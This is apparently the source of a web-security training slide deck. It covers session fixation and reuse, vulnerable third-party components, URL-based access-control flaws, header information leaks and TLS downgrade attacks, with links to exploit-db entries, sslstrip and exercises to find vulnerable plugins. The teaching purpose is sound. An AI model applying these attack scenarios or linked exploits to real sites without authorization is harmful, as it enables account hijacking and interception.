--- # Session fixation Spot the problem(s). ```http POST /login.php HTTP/1.1 Host: example.com User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:53.0) Gecko/20100101 Firefox/53.0 Content-Type: application/x-www-form-urlencoded Content-Length: 105 Cookie: SessionID=573deb8b889a38b32dbe535e3dc0affb Connection: close username=kevin&password=m0ney ``` ```http HTTP/1.1 200 OK Content-Type: text/html Content-Length: 1270 Set-Cookie: SessionID=573deb8b889a38b32dbe535e3dc0affb; path=/ Connection: close <!doctype html> <html> ... Authentication succeeded. Welcome, Kevin! ``` --- # Session fixation Attack scenario: 1. Victim logs in, received new SessionID 2. Victim logs out, terminating the session 3. Attacker gets read access to the SessionID somehow. This should **not** be a problem since the session is terminated server-side (or should be, anyway) 4. Victim logs in using the same browser as before, which still has the SessionID cookie from the last session (should not be a problem) 5. Attacker now has access to the victims account because the attacker has the SessionID, which is now tied to a valid session note: this attack gets even worse if the SessionID is supplied in the URL, as then the attack does not rely on the victim+attacker sharing the same browser --- # Session fixation conclusion - A **new** SessionID should **always** be generated upon login --- # Session ID reused Attack scenario 1: 1. Victim logs into account, receives SessionID 2. Victim logs out 3. Attacker somehow gets read access to SessionID 4. Victim logs on again, receiving same SessionID as before 5. Attacker now has access to the victim's account --- # Session ID reused Attack scenario 2: 1. Attacker logs into own account, receives SessionID 2. Attacker saves SessionID offline 3. Attacker logs out and logs on again, goto #2 - Process is repeated 4. At some point, victim users log in 5. When enough SessionIDs have been saved and some time has passed, attacker tests if the SessionIDs are tied to a valid session 6. Attacker now has access to valid sessions of a victim user --- # Session ID reuse conclusion - A **new** SessionID should **always** be generated upon login --- # Sessions don't expire Attack scenario: 1. Victim logs in, received new SessionID 2. Victim forgets to log out 3. Time passes 4. Attacker gets read access to the SessionID somehow 5. Attacker now has access to the victims account Solution: make sessions timeout when inactive --- class: middle, center # Third party components ---  ---  --- # Android usage statistics September, 2017  source: https://fossbytes.com/most-popular-android-versions-always-updated/ ---  ---  ---  ---  --- <img src="springexploit.png" width="85%"> --- # Tools Example whitebox vulnerability scanners / static code analysers: - OWASP Dependency-Check https://www.owasp.org/index.php/OWASP_Dependency_Check - Retire.js https://retirejs.github.io/ Example blackbox vulnerability scanners: - Nessus - WPScan --- # Nessus  sample reports: https://www.tenable.com/products/nessus/sample-reports --- <img src="wpscan.png" width="150%"> --- # Exercises 1. Find software projects - if online, go to e.g. GitHub - search for e.g. "CMS"/"gallery"/"blog" - if offline, go to `~/examples/` 2. Scan it with `Dependency-Check` 3. Scan it with `retire` 4. Search for known vulnerabilitites in third party components in your own projects 5. Run `searchsploit <searchstring>` from your terminal and see if you can find exploits --- # Conclusion - Third party components should be checked for vulnerabilities: - when integreted - regularly - Choose components where the authors have a proven track record of fixing discovered vulnerabilities - Static code analysers (SCA) such as `Dependency-Check` and `retire` should be integrated in build scripts, and should fail the build if vulnerabilities are found - or make buildserver run SCA regularly - and make sure that the tool's database is updated automatically! --- class: center, middle # Authorization / Access Control *"Should X have access to Y?"* --- # Authorization / Access Control ```html <script> function validateForm() { var x = document.forms["myForm"]["fname"].value; if (x.length > 32) { alert("Name cannot be longer than 32 characters"); return false; } } </script> <form name="myForm" action="/add.aspx" onsubmit="return validateForm()"> Name: <input type="text" name="fname"> <input type="submit" value="Submit"> </form> ``` --- # Authorization / Access Control  --- class: center, middle `http://example.com/download?type=transactions&account=487002&format=pdf` --- class: center, middle `http://example.com/download?type=transactions&account=487002&format=pdf` --- class: center, middle `http://example.com/download?type=transactions&account=487002&format=pdf` Can we change it to someone else's account number? --- # Conclusion - Always verify input (which we do not strictly control ourselves) --- class: middle, center # Sensitive Data Exposure --- # Sensitive Data Exposure What's the problem? ```HTTP HTTP/1.1 200 OK Server: Apache/1.3.22 (Unix) OpenSSL/1.0.2l PHP/7.1.7 mod_perl/2.0.8-dev Perl/v5.16.3 mod_ssl/2.8.6 X-Powered-By: PHP/7.1.7 X-Robots-Tag: noindex X-Content-Type-Options: nosniff Expires: Wed, 11 Jan 1984 05:00:00 GMT Cache-Control: no-cache, must-revalidate, max-age=0 X-Frame-Options: SAMEORIGIN Content-Length: 351 ``` --- # Sensitive Data Exposure What's the problem? ```HTTP HTTP/1.1 200 OK Server: Apache/1.3.22 (Unix) OpenSSL/1.0.2l PHP/7.1.7 mod_perl/2.0.8-dev Perl/v5.16.3 mod_ssl/2.8.6 X-Powered-By: PHP/7.1.7 X-Robots-Tag: noindex X-Content-Type-Options: nosniff Expires: Wed, 11 Jan 1984 05:00:00 GMT Cache-Control: no-cache, must-revalidate, max-age=0 X-Frame-Options: SAMEORIGIN Content-Length: 351 ``` Leaks: - Operating system - Web server software and detailed version - OpenSSL version - PHP version - Perl version - Apache plugins + version --- # Sensitive Data Exposure What's the problem? ```HTTP HTTP/1.1 200 OK Server: Apache/1.3.22 (Unix) OpenSSL/1.0.2l PHP/7.1.7 mod_perl/2.0.8-dev Perl/v5.16.3 mod_ssl/2.8.6 X-Powered-By: PHP/7.1.7 X-Robots-Tag: noindex X-Content-Type-Options: nosniff Expires: Wed, 11 Jan 1984 05:00:00 GMT Cache-Control: no-cache, must-revalidate, max-age=0 X-Frame-Options: SAMEORIGIN Content-Length: 351 ``` Leaks: - Operating system - Web server software and detailed version - OpenSSL version - PHP version - Perl version - Apache plugins + version https://www.exploit-db.com/exploits/764/ ---  --- ### What's the problem?  --- ### Problems - Leaks framework - Leaks source code - Leaks call stack - enables attackers to make educated guesses on version numbers based on call stack or class names Aids an attacker in attacking the system --- class: middle, center # http**s**:// Transport Layer Encryption --- # Transport Layer Encryption Goal: provide privacy and integrity of data while in transit - privacy = no one can read what I'm sending - integrity = The recipient can tell if anyone changed what I'm sending A protocol which implements Transport Layer Encryption is the protocol called TLS (Transport Layer Security), the successor of SSL (Secure Socket Layer) which is now broken. Sidenote: TLS can be used for anything and not just HTTP traffic --- ### "Suitably positioned attacker" - Man in the Middle (MitM) - Unencrypted Wi-Fi - Using untrusted proxies (HTTP/socks/VPN/...) - ARP poisoning - ICMP type 5 redirect - Rogue DHCP - IPv6 router advertisements - ... Vulnerabilities which require MitM have an increased complexity of exploitation, but should not be neglected --- # Partial transport layer encryption *"The payment functionality use HTTPS, so no sensitive data can be intercepted. Everything else is HTTP."* --- # Partial transport layer encryption *"The payment functionality use HTTPS, so no sensitive data can be intercepted. Everything else is HTTP."* Attack: modify the unprotected content which leads to the payment functionality, and remove TLS --- # Downgrading HTTPS to HTTP If we can intercept the initial connection, then we can replace all HTTPS links with HTTP.  - sslstrip MitM tool: https://github.com/moxie0/sslstrip - demo: https://youtu.be/WglJdxqeDrk?t=45s --- # HTTP Strict Transport Security (HSTS) HTTP Response header: ```http Strict-Transport-Security: max-age=31536000; includeSubDomains ``` - HSTS automatically redirects HTTP requests to HTTPS for the target domain - HSTS does not allow a user to override the invalid certificate message ... but HSTS does not work before the user has visited the site the first time --- # Permanent HSTS HTTP Response header: ```http Strict-Transport-Security: max-age=31536000; includeSubDomains; preload ``` ... will signal that you want your site to be included in the preload list as maintained by Google, and used by Firefox and Safari. **Sending the preload directive from your site can have PERMANENT CONSEQUENCES and prevent users from accessing your site and any of its subdomains if you find you need to switch back to HTTP.** --- # Teach users what to look for  --- class: middle, center ## TLS misconfigurations --- ## TLS misconfigurations  source: https://en.wikipedia.org/wiki/Transport_Layer_Security - Outdated components (e.g. [Heartbleed](http://heartbleed.com/) [exploit](https://www.exploit-db.com/exploits/32998/)) - Logjam (https://weakdh.org/logjam.html) --- ### Logjam demo <video class="c" style="box-shadow: 0 0 40px #ccc;" width="90%" controls=""> <source src="eavesdrop-dhe-512.mp4" type="video/mp4"> Your browser does not support MP4 videos. </video> source: https://weakdh.org/logjam.html --- # TLS misconfigurations - Expired certificate - Using SSL (poodle) - Using weak cipher suites - SHA1 signature - Padding Oracle - Forward Secrecy - ... --- # SSL/TLS tools - https://github.com/rbsec/sslscan - https://testssl.sh/ - https://www.ssllabs.com/ssltest/ ---  ---  source: https://testssl.sh/ ---  --- # Exercises 1. Use the tools to check your own websites 2. Be sceptical about the results of the tools and do your own research before concluding that a problem exists 3. Go to https://www.ssllabs.com/ssltest/ and look at examples under "Recent Worst" - scan them with your tools --- class: middle, center # Question: Where should we terminate TLS? --- class: middle, center --- class: middle, center  --- class: middle, center  ---  ---  ---  ---  --- # TLS conclusion - Use transport layer encryption such as TLS (Transport Layer Security) - Inspect your configuration for misconfigurations - Be sure to know where you terminate, and why - transport layer encryption must be applied to **all** pages/resources - Teach users that your site should **never** be accessed over plaintext HTTP - Teach users what to look for --- class: middle, center # Insufficient Attack Protection --- # Homework 1. Browse https://wordpress.org/plugins/ and find a wordpress plugin which seems to be new, unpopular, or of low quality 2. Search for vulnerabilities in it 3. `if (foundVulnerabilities == 0) goto #1` 4. Play a wargame: http://overthewire.org/wargames/natas/ --- class: middle, center # Questions? slides: http://dumpco.re/websec